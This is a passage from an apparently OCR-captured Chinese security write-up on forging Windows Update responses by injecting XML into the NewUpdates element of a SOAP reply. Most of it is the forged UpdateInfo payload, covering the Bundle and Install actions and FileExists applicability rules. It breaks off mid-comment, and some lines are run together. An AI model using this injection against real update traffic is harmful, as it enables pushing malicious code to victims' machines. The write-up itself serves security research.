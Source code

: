     </soap:Body></soap:Envelope>
    

而我们的通过在上面为空的NewUpdates标签中插入内容，就能伪造更新

通过大量测试我们发现一个windows update需要两个`<UpdateInfo>`元素，其中一个必须含有`<Action>Install</Action>`标签，另一个必须含有`<Action>Bundle</Action>`标签，install标签提供了更新标题诸如此类的，而bundle标签则提供更新文件。

    
    
    #!xml
    <NewUpdates>                                    <!-- Start of injected content -->
    <UpdateInfo>
    <ID>17999990</ID>                               <Deployment>
    <ID>899990</ID>
    <Action>Bundle</Action>
    <IsAssigned>true</IsAssigned>
    <LastChangeTime>2015-04-15</LastChangeTime>
    <AutoSelect>0</AutoSelect>
    <AutoDownload>0</AutoDownload>
    <SupersedenceBehavior>0</SupersedenceBehavior>  <FlagBitmask>0</FlagBitmask>
    </Deployment>
    <IsLeaf>true</IsLeaf>
    <Xml>
    <!-- This would XML-encoded inside the Xml tag -->
    <UpdateIdentity UpdateID="969e0d46-7f67-4c81-b672-3c1c4a36c00e"
    RevisionNumber="201" />
    <Properties UpdateType="Software" />
    <Relationships>
    <Prerequisites> 
    <UpdateIdentity UpdateID="6407468e-edc7-4ecd-8c32-521f64cee65e" />
    </Prerequisites>
    </Relationships>
    <ApplicabilityRules>
    <IsInstalled>
    <b.FileExists Csidl="41" Path="\15151245.exe" /> <!-- This file shouldn't
    exist -->
    </IsInstalled>
    <IsInstallable>
    <b.FileExists Csidl="41" Path="\mswsock.dll" /> <!-- This does exist -->
    </IsInstallable>
    </ApplicabilityRules>
    </Xml>
    </UpdateInfo>
    <UpdateInfo>
    <ID>17999991</ID>
    <Deployment>
    <ID>899991</ID>
    <Action>Install</Action>
    <IsAssigned>true</IsAssigned>
    <LastChangeTime>2015-04-15</LastChangeTime>
    <AutoSelect>0</AutoSelect> <!-- This must be 0 according to docs, WU
    ignores it -->                                  <AutoDownload>0</AutoDownload> <!-- same -->
    <SupersedenceBehavior>0</SupersedenceBehavior>
    <FlagBitmask>0</FlagBitmask>
    </Deployment>
    <IsLeaf>true</IsLeaf>
    <Xml>
    <!-- This should be XML encoded inside the Xml tag -->
    <UpdateIdentity UpdateID="853ea117-355b-4c1e-96ce-fab9c977a8e7"
        RevisionNumber="201" />
    <Properties UpdateType="Software" ExplicitlyDeployable="true"
        AutoSelectOnWebSites="true"/>
    <Relationships>
    <Prerequisites>
    <UpdateIdentity UpdateID="6407468e-edc7-4ecd-8c32-521f64cee65e" /> <!--